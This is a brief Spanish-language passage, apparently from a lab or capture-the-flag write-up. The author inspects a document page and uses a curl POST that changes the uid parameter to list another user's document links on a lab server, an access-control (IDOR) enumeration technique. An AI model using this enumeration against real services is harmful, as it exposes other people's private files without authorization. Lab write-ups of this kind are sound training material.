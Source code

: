Obtengo los documentos para el uid=2

![alt text](image-29.png)

Inspecciono la pagina

![alt text](image-31.png)

```html
<li class="pure-tree_link">
    <a href="/documents/Invoice_2_08_2020.pdf" target="_blank">Invoice</a>
</li>
```

Puedo hacer un curl al servidor y filtrar por <li class="pure-tree_link"> para obtener la lista de los enlaces.

```sh
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=1' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
```

![alt text](image-32.png)
